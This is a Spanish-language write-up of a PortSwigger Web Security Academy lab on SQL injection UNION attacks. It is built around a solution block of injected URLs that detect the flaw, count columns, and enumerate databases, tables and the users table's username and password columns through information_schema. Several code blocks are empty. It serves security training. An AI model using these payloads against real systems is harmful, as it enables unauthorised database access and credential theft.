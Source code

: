 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Accessories

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Accessories' 

# Sanar el Query
https://666.web-security-academy.net/filter?category=Accessories' -- -

# Contando Columnas en la tabla que estoy (total = 2)
https:/666.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

# Enum Databases:

## Opt1 - Dump: schema_name = DBs 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
## Opt2 - Dump: schema_name = DBs
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT schema_name,'2' FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. pg_catalog]
    ### [DUMP = DB = 2. public]

# Enum Tables:

## Opt1 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT  '1',table_name FROM information_schema.tables -- -
## Opt2 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables WHERE table_schema = 'public' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]

# Enum Columns:

## Opt1 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT column_name,'2' FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Columns = 1. password]
    ### [DUMP = Columns = 1. username]




````










